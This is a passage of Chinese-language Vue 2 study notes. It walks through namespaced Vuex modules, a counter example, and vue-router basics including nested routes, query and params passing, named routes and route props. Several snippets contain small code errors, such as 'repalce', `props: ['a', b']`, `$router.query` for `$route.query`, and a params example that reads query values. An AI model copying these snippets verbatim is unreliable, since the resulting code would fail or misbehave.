3. 子组件：Count.vue、Person.vue（personAbout、countAbout是自定义的模块名称）

   1）开启命名空间后，组件中读取`state`数据

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

   2）开启命名空间后，组件中读取`getters`数据

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

   3）开启命名空间后，组件中使用`dispatch`，调用`actions`中的函数

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

   4）开启命名空间后，组件中使用`commit`，调用`mutations`中的函数

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

------

### 4.6 求和案例

#### 4.6.1 纯Vue版

##### 入口文件 main.js

1. 使用 `vueResorce` 插件

2. 挂载全局事件总线

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   import vueResource from 'vue-resource'
   Vue.config.productionTip = false
   Vue.use(vueResource)
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
   	beforeCreate() {
   		Vue.prototype.$bus = this
   	}
   })
   ```

##### 子组件 Count.vue

1. 设置选择框`<select>`，让用户选择数字`n`，注意在绑定的时候需要用`v-model.number`确保是数值类型的数据

2. 设置increment、decrement、incrementOdd、incrementWait函数

   ```vue
   <template>
     <div>
       <h1>当前求和为：{{sum}}</h1>
       <!-- 注意：将n设置为number格式，不然就是字符串拼接了（或者在value前加冒号） -->
       <select v-model.number="n">
         <option value="1">1</option>
         <option value="2">2</option>
         <option value="3">3</option>
       </select>
       <button @click="increment">+</button>
       <button @click="decrement">-</button>
       <button @click="incrementOdd">当前求和为奇数再加</button>
       <button @click="incrementWait">等一等再加</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Count',
     data() {
       return {
         n: 1, //用户选择的数字
         sum: 0 //当前的和
       }
     },
     methods: {
       increment() {
         this.sum += this.n
       },
       decrement() {
         this.sum -= this.n
       },
       incrementOdd() {
         if (this.sum % 2) {
           this.sum += this.n
         }
       },
       incrementWait() {
         setTimeout(() => {
           this.sum += this.n
         }, 500)
       }
     }
   }
   </script>
   
   <style lang="css">
   button {
     margin-left: 5px;
   }
   </style>
   ```

##### 父组件 App.vue

1. 正常书写：

   ```vue
   <template>
   	<div>
   		<Count/>
   	</div>
   </template>
   
   <script>
   	import Count from './components/Count'
   	export default {
   		name:'App',
   		components:{Count},
   	}
   </script>
   ```

#### 4.6.2 Vuex原始版

> 仅使用store、actions、mutations、state基础API

##### Vuex文件 index.js

1. 引入并使用 `Vuex`

2. 准备`actions`：用于响应组件中的动作

   1）`jiaOdd(context, value)`函数：对应子组件中的`incrementOdd`函数

   2）`jiaWait(context, value)`函数：对应子组件中的`incrementWait`函数

3. 准备`mutations`：用于操作数据（state）

   1）`JIA(state, value)`函数：对应子组件中的`increment`函数

   2）`JIAN(state, value)`函数：对应子组件中的`decrement`函数

4. 准备`state`：用于存储数据

   1）`sum`：当前的和

   ```js
   // 该文件用于创建Vuex中最为核心的store
   import Vue from 'vue'
   // 引入Vuex
   import Vuex from 'vuex'
   // 应用Vuex插件
   Vue.use(Vuex)
   
   // 准备actions：用于响应组件中的动作
   // 里面定义的函数第一个参数默认是context，相当于迷你版的store，上面有commit、state等方法和数据
   const actions = {
     jiaOdd(context, value) {
       console.log('actions中的jiaOdd被调用了')
       if (context.state.sum % 2) {
         context.commit('JIA', value)
       }
     },
     jiaWait(context, value) {
       console.log('actions中的jiaWait被调用了')
       setTimeout(() => {
         context.commit('JIA', value)
       }, 500)
     },
   }
   
   // 准备mutations：用于操作数据（state）
   const mutations = {
     JIA(state, value) {
       console.log('mutations中的JIA被调用了')
       state.sum += value
     },
     JIAN(state, value) {
       console.log('mutations中的JIAN被调用了')
       state.sum -= value
     },
   }
   
   // 准备state：用于存储数据
   const state = {
     sum: 0, //当前的和
   }
   
   // 创建并暴露store
   export default new Vuex.Store({
     actions,
     mutations,
     state,
   })
   
   ```

##### 入口文件 main.js

1. 引入并挂载store

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   import vueResource from 'vue-resource'
   //引入store（如果store文件夹下只有index.js，可以简写为./store）
   import store from './store'
   
   Vue.config.productionTip = false
   Vue.use(vueResource)
   
   new Vue({
     el: '#app',
     render: (h) => h(App),
     // 挂载store，用于管理vuex中的三个对象
     store,
     beforeCreate() {
       Vue.prototype.$bus = this
     },
   })
   ```

##### 子组件 Count.vue

1. 将原先data()中的sum改为读取state中的sum：`$store.state.sum`

2. 使用`dispatch`方法，令incrementOdd、incrementWait函数通过`actions`调用`mutations`中的JIA、JIAN函数

3. 使用`commit`方法，令increment、decrement函数绕过`actions`，直接调用`mutations`中的JIA、JIAN函数

   ```vue
   <template>
     <div>
       <!-- 将原先data()中的sum改为读取state中的sum --> 
       <h1>当前求和为：{{$store.state.sum}}</h1>
       <select v-model.number="n">
         <option value="1">1</option>
         <option value="2">2</option>
         <option value="3">3</option>
       </select>
       <button @click="increment">+</button>
       <button @click="decrement">-</button>
       <button @click="incrementOdd">当前求和为奇数再加</button>
       <button @click="incrementWait">等一等再加</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Count',
     data() {
       return {
         n: 1 //用户选择的数字
       }
     },
     methods: {
       increment() {
         // 使用commit方法，绕过actions，直接调用mutations中的函数
         this.$store.commit('JIA', this.n)
       },
       decrement() {
         this.$store.commit('JIAN', this.n)
       },
       incrementOdd() {
         // 使用dispatch方法，通过actions，调用mutations中的函数
         this.$store.dispatch('jiaOdd', this.n)
       },
       incrementWait() {
         this.$store.dispatch('jiaWait', this.n)
       }
     },
     mounted() {
       console.log('Count', this)
     }
   }
   </script>
   
   <style lang="css">
   button {
     margin-left: 5px;
   }
   </style>
   ```

##### 父组件 App.vue

1. 正常书写

   ```vue
   <template>
   	<div>
   		<Count/>
   	</div>
   </template>
   
   <script>
   	import Count from './components/Count'
   	export default {
   		name:'App',
   		components:{Count},
   		mounted() {
   			// console.log('App',this)
   		},
   	}
   </script>
   ```


------

#### 4.6.3 Vuex拓展版

> 使用getters、mapState、mapGetters、mapMutations、mapActions拓展API

##### Vuex文件 index.js

1. 定义并导出getters

   ```js
   import Vue from 'vue'
   import Vuex from 'vuex'
   Vue.use(Vuex)
   
   // 准备actions：用于响应组件中的动作
   const actions = {
     jiaOdd(context, value) {
       console.log('actions中的jiaOdd被调用了')
       if (context.state.sum % 2) {
         context.commit('JIA', value)
       }
     },
     jiaWait(context, value) {
       console.log('actions中的jiaWait被调用了')
       setTimeout(() => {
         context.commit('JIA', value)
       }, 500)
     },
   }
   // 准备mutations：用于操作数据（state）
   const mutations = {
     JIA(state, value) {
       console.log('mutations中的JIA被调用了')
       state.sum += value
     },
     JIAN(state, value) {
       console.log('mutations中的JIAN被调用了')
       state.sum -= value
     },
   }
   // 准备state：用于存储数据
   const state = {
     sum: 0, //当前的和
     school: '尚硅谷',
     subject: '前端',
   }
   // 准备getters：用于将state中的数据进行加工
   const getters = {
     bigSum(state) {
       return state.sum * 10
     },
   }
   
   // 创建并暴露store
   export default new Vuex.Store({
     actions,
     mutations,
     state,
     getters,
   })
   ```

##### 入口文件 main.js

1. 正常书写

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   import vueResource from 'vue-resource'
   import store from './store'
   
   Vue.config.productionTip = false
   Vue.use(vueResource)
   
   new Vue({
   	el:'#app',
   	render: h => h(App),
   	store,
   	beforeCreate() {
   		Vue.prototype.$bus = this
   	}
   })
   ```

##### 子组件 Count.vue

1. 从vuex引入：mapState, mapGetters, mapMutations, mapActions

2. 改造methods和computed中的函数

3. 更改模板字符串

4. 使用mapMutations、mapActions的函数勿忘传参

   ```vue
   <template>
     <div>
       <!-- 更改模板字符串-->
       <h1>当前求和为：{{sum}}</h1>
       <h3>当前求和放大10倍为：{{bigSum}}</h3>
       <h3>我在{{school}}，学习{{subject}}</h3>
       <select v-model.number="n">
         <option value="1">1</option>
         <option value="2">2</option>
         <option value="3">3</option>
       </select>
       <!-- 勿忘传参-->
       <button @click="increment(n)">+</button>
       <button @click="decrement(n)">-</button>
       <button @click="incrementOdd(n)">当前求和为奇数再加</button>
       <button @click="incrementWait(n)">等一等再加</button>
     </div>
   </template>
   
   <script>
   import { mapState, mapGetters, mapMutations, mapActions } from 'vuex'
   export default {
     name: 'Count',
     data() {
       return {
         n: 1 //用户选择的数字
       }
     },
     computed: {
       // 借助mapState生成计算属性，从state中读取数据
       // 对象写法
       // ...mapState({he:'sum',xuexiao:'school',xueke:'subject'}),
       // 数组写法
       ...mapState(['sum', 'school', 'subject']),
   
       //借助mapGetters生成计算属性，从getters中读取数据
       // 对象写法
       // ...mapGetters({bigSum:'bigSum'})
       // 数组写法
       ...mapGetters(['bigSum'])
     },
     methods: {
       // 借助mapMutations生成对应的方法，方法中会调用commit去联系mutations
       // 对象写法
       ...mapMutations({ increment: 'JIA', decrement: 'JIAN' }),
       // 数组写法
       // ...mapMutations(['JIA','JIAN']),
   
       // 借助mapActions生成对应的方法，方法中会调用dispatch去联系actions
       // 对象写法
       ...mapActions({ incrementOdd: 'jiaOdd', incrementWait: 'jiaWait' })
       // 数组写法
       // ...mapActions(['jiaOdd','jiaWait'])
     },
     mounted() {
       const x = mapState({ he: 'sum', xuexiao: 'school', xueke: 'subject' })
       console.log(x)
     }
   }
   </script>
   
   <style lang="css">
   button {
     margin-left: 5px;
   }
   </style>
   ```

##### 父组件 App.vue

1. 正常书写

   ```vue
   <template>
   	<div>
   		<Count/>
   	</div>
   </template>
   
   <script>
   	import Count from './components/Count'
   	export default {
   		name:'App',
   		components:{Count},
   		mounted() {
   			// console.log('App',this)
   		},
   	}
   </script>
   ```

------

#### 4.6.3 Vuex模块版

##### Vuex汇总文件 index.js

1. 将各组件的actions、mutations、state、getters拆分成不同js模块文件

2. 导入各个模块文件

3. 暴露模块，可自定义名称

   ```js
   import Vue from 'vue'
   import Vuex from 'vuex'
   // 导入各个模块文件
   import countOptions from './count'
   import personOptions from './person'
   Vue.use(Vuex)
   
   export default new Vuex.Store({
     // 暴露模块，可自定义名称
     modules: {
       countAbout: countOptions,
       personAbout: personOptions,
     },
   })
   ```

##### Vuex模块文件 count.js

1. 开启命名空间：`namespaced: true`

2. 定义actions、mutations、state、getters配置

   ```js
   //求和相关的配置
   export default {
     // 命名空间：可以自定义模块名称，默认为false
     namespaced: true,
     actions: {
       jiaOdd(context, value) {
         console.log('actions中的jiaOdd被调用了')
         if (context.state.sum % 2) {
           context.commit('JIA', value)
         }
       },
       jiaWait(context, value) {
         console.log('actions中的jiaWait被调用了')
         setTimeout(() => {
           context.commit('JIA', value)
         }, 500)
       },
     },
     mutations: {
       JIA(state, value) {
         console.log('mutations中的JIA被调用了')
         state.sum += value
       },
       JIAN(state, value) {
         console.log('mutations中的JIAN被调用了')
         state.sum -= value
       },
     },
     state: {
       sum: 0,
       school: '尚硅谷',
       subject: '前端',
     },
     getters: {
       bigSum(state) {
         return state.sum * 10
       },
     },
   }
   ```

##### Vuex模块文件 person.js

1. 导入axios、nanoid插件

2. 开启命名空间：`namespaced: true`

3. 定义actions、mutations、state、getters配置

4. 在actions发送axios请求

   ```js
   //人员管理相关的配置
   import axios from 'axios'
   import { nanoid } from 'nanoid'
   export default {
     // 命名空间：可以自定义模块名称，默认为false
     namespaced: true,
     actions: {
       addPersonWang(context, value) {
         if (value.name.indexOf('王') === 0) {
           context.commit('ADD_PERSON', value)
         } else {
           alert('添加的人必须姓王！')
         }
       },
       addPersonServer(context) {
         axios.get('https://api.uixsj.cn/hitokoto/get?type=social').then(
           (response) => {
             context.commit('ADD_PERSON', { id: nanoid(), name: response.data })
           },
           (error) => {
             alert(error.message)
           }
         )
       },
     },
     mutations: {
       ADD_PERSON(state, value) {
         console.log('mutations中的ADD_PERSON被调用了')
         state.personList.unshift(value)
       },
     },
     state: {
       personList: [{ id: '001', name: '张三' }],
     },
     getters: {
       firstPersonName(state) {
         return state.personList[0].name
       },
     },
   }
   ```

##### 入口文件 main.js

1. 正常书写

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   import vueResource from 'vue-resource'
   import store from './store'
   
   Vue.config.productionTip = false
   Vue.use(vueResource)
   
   new Vue({
     el: '#app',
     render: (h) => h(App),
     store,
     beforeCreate() {
       Vue.prototype.$bus = this
     },
   })
   ```

##### 子组件 Count.vue

1. 在计算属性`computed`中配置`mapState`、`mapGetters`

2. 在事件处理`methods`中配置`mapMutations`、`mapActions`

3. 插值语法渲染，若使用`mapMutations`、`mapActions`中的函数，勿忘传递参数

4. 跨模块：调用了`personAbout`模块中的`personList`数据

   ```vue
   <template>
     <div>
       <h1>当前求和为：{{sum}}</h1>
       <h3>当前求和放大10倍为：{{bigSum}}</h3>
       <h3>我在{{school}}，学习{{subject}}</h3>
       <h3 style="color:red">Person组件的总人数是：{{personList.length}}</h3>
       <select v-model.number="n">
         <option value="1">1</option>
         <option value="2">2</option>
         <option value="3">3</option>
       </select>
       <button @click="increment(n)">+</button>
       <button @click="decrement(n)">-</button>
       <button @click="incrementOdd(n)">当前求和为奇数再加</button>
       <button @click="incrementWait(n)">等一等再加</button>
     </div>
   </template>
   
   <script>
   import { mapState, mapGetters, mapMutations, mapActions } from 'vuex'
   export default {
     name: 'Count',
     data() {
       return {
         n: 1
       }
     },
     computed: {
       // 开启命名空间后，可以使用自定义的模块名称导入其中的方法
       ...mapState('countAbout', ['sum', 'school', 'subject']),
       ...mapState('personAbout', ['personList']),
       ...mapGetters('countAbout', ['bigSum'])
     },
     methods: {
       ...mapMutations('countAbout', { increment: 'JIA', decrement: 'JIAN' }),
       ...mapActions('countAbout', { incrementOdd: 'jiaOdd', incrementWait: 'jiaWait' })
     },
     mounted() {
       console.log(this.$store)
     }
   }
   </script>
   
   <style lang="css">
   button {
     margin-left: 5px;
   }
   </style>
   ```

##### 子组件 Person.vue

1. 导入nanoid插件

2. 不使用`mapState`、`mapGetters`、`mapMutations`、`mapActions`，直接调用store中的方法和数据

   1）state：`this.$store.state.自定义模块名称.数据名`

   2）getters：`this.$store.getters['自定义模块名称/函数名']`

   3）mutations：`this.$store.commit('自定义模块名称/函数名', 要传递的数据)`

   4）actions：`this.$store.dispatch('自定义模块名称/函数名', 要传递的数据)`

3. 跨模块：调用了`countAbout`中的`sum`数据

   ```vue
   <template>
     <div>
       <h1>人员列表</h1>
       <h3 style="color:red">Count组件求和为：{{sum}}</h3>
       <h3>列表中第一个人的名字是：{{firstPersonName}}</h3>
       <input type="text" placeholder="请输入名字" v-model="name" />
       <button @click="add">添加</button>
       <button @click="addWang">添加一个姓王的人</button>
       <button @click="addPersonServer">添加一个人，名字随机</button>
       <ul>
         <li v-for="p in personList" :key="p.id">{{p.name}}</li>
       </ul>
     </div>
   </template>
   
   <script>
   import { nanoid } from 'nanoid'
   export default {
     name: 'Person',
     data() {
       return {
         name: ''
       }
     },
     computed: {
       personList() {
         // 不使用mapState时，要用.personAbout指定模块
         return this.$store.state.personAbout.personList
       },
       sum() {
         return this.$store.state.countAbout.sum
       },
       firstPersonName() {
         // 不使用mapGetters时，要用['personAbout/xxx']指定模块
         return this.$store.getters['personAbout/firstPersonName']
       }
     },
     methods: {
       add() {
         const personObj = { id: nanoid(), name: this.name }
         // 不使用mapMutations时，要用personAbout/指定模块
         this.$store.commit('personAbout/ADD_PERSON', personObj)
         this.name = ''
       },
       addWang() {
         const personObj = { id: nanoid(), name: this.name }
         this.$store.dispatch('personAbout/addPersonWang', personObj)
         this.name = ''
       },
       addPersonServer() {
         this.$store.dispatch('personAbout/addPersonServer')
       }
     }
   }
   </script>
   ```

##### 父组件 App.vue

1. 导入各个模块

   ```vue
   <template>
   	<div>
   		<Count/>
   		<hr>
   		<Person/>
   	</div>
   </template>
   
   <script>
   	import Count from './components/Count'
   	import Person from './components/Person'
   
   	export default {
   		name:'App',
   		components:{Count,Person},
   	}
   </script>
   ```

------

## 第5章 Vue-router路由

### 5.1 路由简介

1. `vue-router`：是 vue 的一个插件库，专门用来实现 SPA 应用

   ```bash
   npm i vue-router
   ```

2. SPA 应用：

   1）单页 Web 应用（single page web application，SPA）

   2）整个应用只有一个完整的页面

   3）点击页面中的导航链接不会刷新页面，只会做页面的局部更新

   4）数据需要通过 ajax 请求获取

3. 路由的定义：一个路由就是一组映射关系(key-value)，key为路径, value是`function`或`component`，多个路由需要路由器(router)进行管理

4. 后端路由：node.js

   1）value 是 function, 用于处理客户端提交的请求

   2）工作过程：服务器接收到一个请求时, 根据请求路径找到匹配的函数来处理请求, 返回响应数据

5. 前端路由：vue

   1）value 是 component，用于展示页面内容

   2）工作过程：当浏览器的路径改变时, 对应的组件就会显示

------

### 5.2 基本使用

#### 路由配置 router/index.js

1. 引入子组件

2. 创建并暴露路由器：`export default new VueRouter({ routers:[] })`

   ```js
   // 该文件专门用于创建整个应用的路由器
   import VueRouter from 'vue-router'
   //引入组件
   import About from '../components/About'
   import Home from '../components/Home'
   
   //创建并暴露一个路由器
   export default new VueRouter({
     routes: [
       {
         path: '/about',
         component: About,
       },
       {
         path: '/home',
         component: Home,
       },
     ],
   })
   ```

#### 入口文件 main.js

1. 导入并应用插件：`Vue.use(VueRouter)`

2. 创建路由器：`router: router`

   ```js
   import Vue from 'vue'
   import App from './App.vue'
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入路由器
   import router from './router'
   
   Vue.config.productionTip = false
   //应用插件
   Vue.use(VueRouter)
   
   //创建vm
   new Vue({
     el: '#app',
     render: (h) => h(App),
     // 创建路由器
     router: router,
   })
   ```

#### 一般组件 About、Home.vue

1. 正常书写

   ```vue
   <template>
   	<h2>我是About的内容</h2>
   </template>
   
   <script>
   	export default {
   		name:'About'
   	}
   </script>
   ```

   ```vue
   <template>
   	<h2>我是Home的内容</h2>
   </template>
   
   <script>
   	export default {
   		name:'Home'
   	}
   </script>
   ```

#### 父组件 App.vue

1. 原始html：使用`<a>`标签实现页面的跳转

   ```html
   <a class="list-group-item active" href="./about.html">About</a>
   <a class="list-group-item" href="./home.html">Home</a>
   ```

2. Vue：借助`<router-link>`标签实现路由的切换（`active-class`可配置高亮样式）

   ```html
   <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
   <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
   ```

3. 指定展示位置：`<router-view>`

   ```html
   <router-view></router-view>
   ```

4. 完整代码：style没写，因为已经在`public/index.html`主页中引入了bootstrap.css样式

   ```vue
   <template>
     <div>
       <div class="row">
         <div class="col-xs-offset-2 col-xs-8">
           <div class="page-header">
             <h2>Vue Router Demo</h2>
           </div>
         </div>
       </div>
       <div class="row">
         <div class="col-xs-2 col-xs-offset-2">
           <div class="list-group">
             <!-- 原始html中使用a标签实现页面的跳转 -->
             <!-- <a class="list-group-item active" href="./about.html">About</a> -->
             <!-- <a class="list-group-item" href="./home.html">Home</a> -->
   
             <!-- Vue中借助router-link标签实现路由的切换 -->
             <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
             <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
           </div>
         </div>
         <div class="col-xs-6">
           <div class="panel">
             <div class="panel-body">
               <!-- 指定组件的呈现位置 -->
               <router-view></router-view>
             </div>
           </div>
         </div>
       </div>
     </div>
   </template>
   
   <script>
   export default {
     name: 'App'
   }
   </script>
   ```

------

### 5.3 嵌套路由（多级路由）

> 1. 路由组件通常存放在```pages```文件夹，一般组件通常存放在```components```文件夹
> 2. 通过切换，“隐藏”了的路由组件，默认是被销毁掉的，需要的时候再去挂载
> 3. 每个组件都有自己的```$route```属性，里面存储着自己的路由信息
> 4. 整个应用只有一个router，可以通过组件的```$router```属性获取到

#### 路由配置 router/index.js

1. 从`pages`文件夹导入路由组件

2. 使用`children`配置项

   1）一级路由，路径加'/'

   2）二级以上路由，路径不加'/'

   ```js
   // 该文件专门用于创建整个应用的路由器
   import VueRouter from 'vue-router'
   //引入组件
   import About from '../pages/About'
   import Home from '../pages/Home'
   import News from '../pages/News'
   import Message from '../pages/Message'
   
   //创建并暴露一个路由器
   export default new VueRouter({
     routes: [
       {
         path: '/about',
         component: About,
       },
       {
         // 一级路由，路径加'/'
         path: '/home',
         component: Home,
         children: [
           {
             // 二级路由，路径不加'/'
             path: 'news',
             component: News,
           },
           {
             path: 'message',
             component: Message,
           },
         ],
       },
     ],
   })
   ```

#### 路由组件 About/Home/News/Message.vue

1. 跳转：要带上一级路由的地址，否则无效（可以用命名路由简化）

   ```html
   <router-link to="/home/news">News</router-link>
   ```

2. 一级路由组件：About.vue、Home.vue

   ```vue
   <template>
     <h2>我是About的内容</h2>
   </template>
   
   <script>
   export default {
     name: 'About'
   }
   </script>
   ```

   ```vue
   <template>
     <div>
       <h2>Home组件内容</h2>
       <div>
         <ul class="nav nav-tabs">
           <li>
             <!-- 跳转必须写完整路径 -->
             <router-link class="list-group-item" active-class="active" to="/home/news">News</router-link>
           </li>
           <li>
             <router-link class="list-group-item" active-class="active" to="/home/message">Message</router-link>
           </li>
         </ul>
         <router-view></router-view>
       </div>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Home'
   }
   </script>
   ```

3. 二级路由组件：News.vue、Message.vue

   ```vue
   <template>
     <div>
       <ul>
         <li>
           <a href="/message1">message001</a>&nbsp;&nbsp;
         </li>
         <li>
           <a href="/message2">message002</a>&nbsp;&nbsp;
         </li>
         <li>
           <a href="/message/3">message003</a>&nbsp;&nbsp;
         </li>
       </ul>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Message'
   }
   </script>
   ```

   ```vue
   <template>
     <ul>
       <li>news001</li>
       <li>news002</li>
       <li>news003</li>
     </ul>
   </template>
   
   <script>
   export default {
     name: 'News'
   }
   </script>
   ```

#### 一般组件 Banner.vue

1. 正常书写

   ```vue
   <template>
     <div class="col-xs-offset-2 col-xs-8">
       <div class="page-header">
         <h2>Vue Router Demo</h2>
       </div>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Banner'
   }
   </script>
   ```

#### 父组件 App.vue

1. 导入一般组件Banner.vue

   ```vue
   <template>
     <div>
       <div class="row">
         <!-- 一般组件 Banner -->
         <Banner />
       </div>
       <div class="row">
         <div class="col-xs-2 col-xs-offset-2">
           <div class="list-group">
             <!-- Vue中借助router-link标签实现路由的切换 -->
             <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
             <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
           </div>
         </div>
         <div class="col-xs-6">
           <div class="panel">
             <div class="panel-body">
               <!-- 指定组件的呈现位置 -->
               <router-view></router-view>
             </div>
           </div>
         </div>
       </div>
     </div>
   </template>
   
   <script>
   import Banner from './components/Banner'
   export default {
     name: 'App',
     components: { Banner }
   }
   </script>
   
   ```

------

### 5.4 query参数

> 父路由组件给子路由组件传递数据，使用`<router-link :to="{key:value,...}">`传参，并用`$router.query.xxx`接收参数

1. 传递参数：

   1）方法1：字符串写法：`?key1=value1&key2=value2`

   ```html
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
   ```

   2）方法2：对象写法（推荐）

   ```html
   <router-link
     :to="{
   	path:'/home/message/detail',
   	query:{
   		id:666,
   		title:m.'你好'
   	}
   }"
   >{{m.title}}</router-link>
   ```

2. 接收参数：`$route.query.xxx`

   ```js
   $route.query.id
   $route.query.title
   ```

3. 案例：二级路由组件Message.vue下，设置三级路由组件Detail.vue，并向其传递数据

   1）路由配置：router/index.js

   ```js
   ......
   //创建并暴露一个路由器
   export default new VueRouter({
     routes: [
       {
         path: '/about',
         component: About,
       },
       {
         path: '/home',
         component: Home,
         children: [
           {
             path: 'news',
             component: News,
           },
           {
             path: 'message',
             component: Message,
             children: [
               {
                 path: 'detail',
                 component: Detail,
               },
             ],
           },
         ],
       },
     ],
   })
   ```

   2）二级路由组件：pages/Message.vue

   ```vue
   <template>
     <div>
       <ul>
         <li v-for="m in messageList" :key="m.id">
           <!-- 跳转路由并携带query参数，to的对象写法 -->
           <router-link
             :to="{
   					path:'/home/message/detail',
   					query:{
   						id:m.id,
   						title:m.title
   					}
   				}"
           >{{m.title}}</router-link>
         </li>
       </ul>
       <hr />
       <router-view></router-view>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Message',
     data() {
       return {
         messageList: [
           { id: '001', title: '消息001' },
           { id: '002', title: '消息002' },
           { id: '003', title: '消息003' }
         ]
       }
     }
   }
   </script>
   ```

   3）三级路由组件：pages/Detail.vue

   ```vue
   <template>
   	<ul>
   		<li>消息编号：{{$route.query.id}}</li>
   		<li>消息标题：{{$route.query.title}}</li>
   	</ul>
   </template>
   
   <script>
   	export default {
   		name:'Detail',
   		mounted() {
   			console.log(this.$route)
   		},
   	}
   </script>
   ```

------

### 5.5 命名路由

> 可以简化路由的跳转，在路由配置文件index.js中设置`name`属性，并在`<router-link :to="{name:'xxx',...}">`中配置命名

1. 路由配置文件：router/index.js

   ```js
   ......
   {
     path: '/demo',
     component: Demo,
     children: [
       {
         path: 'test',
         component: Test,
         children: [
           {
             name: 'hello', //给路由命名
             path: 'welcome',
             component: Hello,
           },
         ],
       },
     ],
   },
   ```

2. 简化跳转：

   ```vue
   <!--简化前，需要写完整的路径 -->
   <router-link to="/demo/test/welcome">跳转</router-link>
   
   <!--简化后，直接通过名字跳转 -->
   <router-link :to="{name:'hello'}">跳转</router-link>
   
   <!--简化写法配合传递参数 -->
   <router-link 
   	:to="{
   		name:'hello',
   		query:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

------

### 5.6 params参数

> 父路由组件给子路由组件传递数据，在index.js中用占位符`:`声明接收params参数，用`<router-link :to="/url/value1/value2/...">`传参，并用`$router.params.xxx`接收参数

1. 路由配置：router/index.js

   1）命名路由：设置`name`

   2）在`path`中使用占位符（`:`）声明接受`params`参数

   ```js
   {
     path: '/home',
     component: Home,
     children: [
       {
         path: 'news',
         component: News,
       },
       {
         component: Message,
         children: [
           {
             name: 'xiangqing',
             path: 'detail/:id/:title', //使用占位符声明接收params参数
             component: Detail,
           },
         ],
       },
     ],
   },
   ```

2. 传递参数：二级路由组件 Message.vue

   1）方法1：字符串写法：`/url/value1/value2/...`

   ```vue
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>
   ```

   2）方法2：对象写法，不能使用path配置项，必须使用name配置！

   ```vue
   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link 
   	:to="{
   		name:'xiangqing',
   		params:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

3. 接收参数：三级路由组件 Detail.vue

   ```js
   $route.params.id
   $route.params.title
   ```

   ```vue
   <template>
     <ul>
       <li>消息编号：{{$route.query.id}}</li>
       <li>消息标题：{{$route.query.title}}</li>
     </ul>
   </template>
   
   <script>
   export default {
     name: 'Detail',
     mounted() {
       console.log(this.$route)
     }
   }
   </script>
   ```

### 5.7 props配置

> 让路由组件更方便的收到参数，在路由配置文件index.js中添加 `props` 配置项，并在接收数据的路由组件Detail.vue中配置`props`

1. `props`值为对象：该对象中所有的`key-value`的组合最终都会通过props传给Detail组件（缺点：静态数据）

   ```js
   props:{a:900,b:'hello'}
   ```

   ```vue
   <!--Detail.vue-->
   <li>a:{{a}}</li>
   <li>b:{{b}}</li>
   ...
   props: ['a', b']
   ```

2. `props`值为布尔值：值为true，则把路由收到的所有`params`参数通过props传给Detail组件（缺点：无法传递`query`参数）

   ```js
   path:'detail/:id/:title',
   props:true
   ```

   ```vue
   <!--Detail.vue-->
   <li>消息编号：{{id}}</li>
   <li>消息标题：{{title}}</li>
   ...
   props: ['id', 'title']
   ```

3. `props`值为函数：该函数返回的对象中每一组`key-value`都会通过props传给Detail组件

   ```js
   path:'detail',
   props($route){
   	return {
   		id: $route.query.id,
   		title: $route.query.title,
   		a: 1,
   		b: 'hello'
   	}
   }
   ```

   ```vue
   <!--Detail.vue-->
   <li>消息编号：{{id}}</li>
   <li>消息标题：{{title}}</li>
   <li>a:{{a}}</li>
   <li>b:{{b}}</li>
   ......
   props: ['id', 'title', 'a', 'b']
   ```

4. 案例：

   1）路由配置文件：router/index.js

   ```js
   {
     name: 'xiangqing',
     path: 'detail',
     component: Detail,
     props($route) {
       return {
         id: $route.query.id,
         title: $route.query.title,
         a: 1,
         b: 'hello',
       }
     },
   },
   ```

   2）路由组件：Detail.vue

   ```vue
   <template>
     <ul>
       <li>消息编号：{{id}}</li>
       <li>消息标题：{{title}}</li>
       <li>a:{{a}}</li>
       <li>b:{{b}}</li>
     </ul>
   </template>
   
   <script>
   export default {
     name: 'Detail',
     props: ['id', 'title', 'a', 'b'],
   }
   </script>
   ```


------

### 5.8 历史记录

> `<router-link>`的`replace`属性：控制路由跳转时操作浏览器历史记录的模式

1. 历史记录的写入方式：

   1）`push`：追加历史记录（默认）

   2）`replace`：替换当前记录（相当于无痕浏览，无法后退，只能退到push模式的历史记录上）

2. 开启```replace```模式：

   ```vue
   <!--简写-->
   <router-link replace ...>News</router-link>
   <!--完整-->
   <router-link :replace="true" ...>News</router-link>
   ```

3. 案例：在父组件App.vue中，更改About、Home路由组件为repalce属性，效果：点击跳转后，浏览器无法后退到使用replace的记录

   ```vue
   <router-link repalce class="list-group-item" active-class="active" to="/about">About</router-link>
   <router-link repalce class="list-group-item" active-class="active" to="/home">Home</router-link>
   ```

------

### 5.9 编程式路由导航

